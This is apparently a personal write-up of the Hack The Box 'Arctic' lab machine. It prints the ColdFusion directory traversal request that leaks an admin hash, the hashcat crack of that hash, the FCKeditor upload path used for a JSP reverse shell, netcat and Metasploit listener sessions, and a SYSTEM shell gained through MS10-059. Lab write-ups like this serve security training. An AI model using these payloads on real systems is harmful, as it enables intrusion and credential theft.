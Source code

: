 
### Index
1. Locating nmap NSE script 
2. Enumerating RPC
3. Adobe Cold Fusion FCKEditor File upload vulnerability. [CVE-2009-2265](https://www.exploit-db.com/exploits/50057)
4. Upgrading the NetCat Shell (Gained by executing the python exploit) to Meterpreter shell and then running local exploit suggester.
5. 



Initial Enumeration (subdomain, vhosts, directories/files)

```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.11 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 00:49 EDT
Nmap scan report for arctic.htb (10.10.10.11)

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Just because port 135 is open. Trying out RPC Enum
```
$ locate -r nse$ | grep msrpc  
/usr/share/nmap/scripts/msrpc-enum.nse

$ sudo nmap -p135 --script=msrpc-enum -sS -sC -sV 10.10.10.11
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
```

Upon access the site on port 8500, the CVE-2010-2861 Directory Traversal Vulnerability was present. I read the [PoC ](https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2010-2861/README.md) and found the backend admin password.
```
Request:
GET /CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en HTTP/1.1
Host: arctic.htb:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: CFID=200; CFTOKEN=84509656
Upgrade-Insecure-Requests: 1

Response:
<title>#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true</title>
```

using auxiliary/scanner/http/coldfusion_locale_traversal in msf
```

```

Trying to identify the hash as well
```
$>$hashid 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 

```

Cracking the above hash and got the admin password for Adobe Coldfusion
```
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday  
```

After digging into Admin Panel, I did not find any place to host my reverse Shell. I was able to create archives, backups, connectors but nothing was helping me to host my shell. Under the system settings in Admin panel, i notice that the user 'tolis' is mention and the adobe cold fusion is deployed as user 'tolis'. I googled ColdFusion RCE and found this [Exploit-DB](https://www.exploit-db.com/exploits/50057) exploit which is CVE-2009-2265. The vulnerability exist in FCKeditor and the path to upload files is unrestricted. However, I was not able to locate where is the FCKeditor from the Admin panel. I have the exploit. Felt like I'm just a noob that don't know what the exploit is doing. But Reading the [GitHub Repo](https://github.com/0xConstant/CVE-2009-2265 ) make little bit things clear in my brain. 

After reading [This Article](https://codewatch.org/2013/12/07/manually-penetrating-the-fckedit-vulnerability-cve-2009-2265/) Things were little bit clear that during my earlier enumeration, I forgot to take a look at the following path when I open http://arctic.htb:8500/ 
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
```

Now the Exploit-DB exploit that I have used earlier, make sense that my JSP shell is being uploaded to the following location.
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00
```

I have the path present on my target and I use the exploit to capture the Tolis user flag. 

# Shell Upgrading Notes

My python exploit code has the following line. 
```
os.system(f'nc -nlvp {lport}')
```

I comment out the above line in the python exploit and use the following msf module to start the netcat listener so that I can capture the meterpreter shell instead of the netcat shell.
```
msf>use exploit/multi/handler
msf>set LHOST 10.10.16.5
msf>set LPORT 4444
msf>run
[*] Started reverse TCP handler on 10.10.16.5:4444 

[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.11:55411) at 2024-08-06 00:15:27 -0400

Now use CTRL+Z to throw the shell in the background and use 'local_exploit_suggester'. For this machine it was not helpful. Still i tried.
```

# Privilege Escalation 

### Initial Enum using winPEAS.bat

UAC is Enabled. but according to HackTricks, I need a GUI access
```
 [+] UAC Settings                                                                                                                                                       
   [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on                                                                            
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access           
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System                                                                            
    EnableLUA    REG_DWORD    0x1
```

I tried mimikatz.exe and I did not have any good luck there. Reading the Machine Info on Hack The Box, i notice that it was mention that "privilege escalation is achieved using the MS10-059 exploit. " [This Exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled) was used to obtained the Administrator Shell and root flag.

```
$ nc -lvnp 8000                                                                      
listening on [any] 8000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 55575
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Documents>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>more root.txt
more root.txt
fcb***********************
```

